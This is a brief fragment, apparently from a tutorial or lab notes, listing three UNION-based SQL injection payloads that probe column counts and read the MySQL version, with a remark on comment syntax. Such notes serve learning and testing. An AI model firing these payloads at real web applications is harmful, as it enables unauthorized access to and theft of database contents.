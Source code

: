 1. ' UNION SELECT NULL,NULL--+ (For MySQL, we need additional space after double dash (or +))
2. ' UNION SELECT 'a',NULL--+ 
3. ' UNION SELECT @@version,NULL--+ 